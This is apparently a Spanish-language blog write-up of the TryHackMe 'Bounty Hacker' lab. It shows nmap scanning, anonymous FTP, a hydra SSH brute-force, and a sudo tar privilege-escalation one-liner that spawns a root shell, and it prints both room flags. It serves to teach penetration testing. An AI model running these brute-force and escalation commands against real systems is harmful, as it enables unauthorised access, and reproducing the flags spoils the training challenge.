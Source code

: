 ```yaml
---
layout: single
title: Bounty Hacker - TryHackMe
excerpt: " TryHackMe’s Bounty Hacker room is an easy room that involves FTP, bruteforcing, SSH, and privilege escalation to go from a scan to root. "
date: 2022-08-30
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-bountyhacker/bountyhacker.jpeg
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - ftp
  - ssh
  - tar
---
```


TryHackMe’s Bounty Hacker room is an easy room that involves FTP, bruteforcing, SSH, and privilege escalation to go from a scan to root.

# Summary
- IP: 10.10.1.131
- Ports: 21,22,80
- OS: Linux (Ubuntu Xenial)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
	-  80 -> Apache httpd 2.4.18

# Recon

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.1.131 -oG allPorts
```


- Escaneo profundo de puertos:

```bash
$sudo nmap -p21,22,80 -sCV 10.10.1.131 -oN targeted
```


- Escaneo de página web:

```bash
$sudo nmap --script http-enum -p80 10.10.1.131 -oN webScan
```


- Podemos acceder via FTP como anonymous, encontramos dos archivos:

```bash
$ftp 10.10.1.131
```


- Un archivo contiene lo que parece ser un diccionario; analizamos la página web, pero no encontramos nada relevante.
- Con la información actual, hacemos un ataque de fuerza bruta con hydra para intentar logearnos como usuario "lin" (nombre encontrado en los recursos anteriormente enumerados) utilizando el diccionario descargado por ftp:

```bash
$hydra -l lin -P /home/dante/Tryhackme/Bounty_Hacker/content/locks.txt ssh://10.10.1.131
```

- Encontramos una credencial, accedemos a la máquina como lin:

```bash
$ssh lin@10.10.1.131
```


- Leemos la primera flag:
# USER FLAG: THM{CR1M3_SyNd1C4T3}

# ESCALANDO PRIVILEGIOS:

-  Buscamos binarios permitidos ejecutar como sudoer:

```bash
$sudo -l
```


- Podemos ejecutar el binario "tar", con una búsqueda en gtfobins encontramos la siguiente forma de escalar privilegios:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- Leemos la flag de root:

# ROOT FLAG: THM{80UN7Y_h4cK3r}
